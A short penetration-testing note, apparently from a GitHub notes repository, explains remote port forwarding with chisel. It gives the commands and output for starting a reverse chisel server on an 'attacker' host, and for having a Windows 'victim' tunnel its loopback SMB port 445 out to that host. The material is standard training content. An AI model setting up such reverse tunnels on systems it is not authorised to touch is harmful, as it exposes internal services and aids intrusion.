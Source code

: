 

# Port Forwarding

When a service is running exclusively on an internal port or localhost (127.0.0.1), it is necessary to forward that port to our system to enumerate the service running on that specific socket. There are three primary techniques to achieve this:

- **Local Port Forwarding**
- **Remote Port Forwarding**
- **Dynamic Port Forwarding**

## Port Configuration

Open a PowerShell or a Command Prompt console as Administrator to activate the [Windows Advanced Firewall]() for all the profiles (nope):

```powershell
PS C:\Windows\system32> netsh advfirewall set allprofiles state on
Ok.
```

## Remote Port Forwarding

Remote Port Forwarding means forwarding the port that's listening on the target host loopback interface to our host. This is done by connecting to our host **from** the target host.

Simplified:
- Remote: Connect to ythe attacker host from the target host.

This technique involves forwarding the port that's listening on the loopback interface in the target/victim host to our remote host. Startup by adding the executable permissions to the chisel binary in Linux and setup a listener:

```shell
❯ chmod +x chisel_1.7.7_linux_amd64
❯ ./chisel_1.7.7_linux_amd64 server -p 9191 --reverse
2022/03/07 13:49:57 server: Reverse tunnelling enabled
2022/03/07 13:49:57 server: Fingerprint 0ToKrAu+HqrbE9RCpmLwj5XanRN3Lg9QJ/SaFH8Is5k=
2022/03/07 13:49:57 server: Listening on http://0.0.0.0:9191
2022/03/07 13:50:14 server: session#1: tun: proxy#R:445=>445: Listening
```

Now in Windows execute the following to forward port 445 to the attacker (Linux) host:

```powershell
PS C:\Users\user> .\chisel.exe client 192.168.119.130:9191 R:445:127.0.0.1:445
2022/03/07 14:50:14 client: Connecting to ws://192.168.119.130:9191
2022/03/07 14:50:14 client: Connected (Latency 688.5µs)
```

The syntax of the command above is the following:

```powershell
chisel client <CLIENT_IP>:<PORT_TO_CONNECT/YOUR_CHISEL_SERVER_PORT> R:<PORT_TO_FORWARD_FROM_VICTIM>:<TUNNEL_TARGET_IP>:<PORT_TO_FORWARD_TO_CLIENT>
```
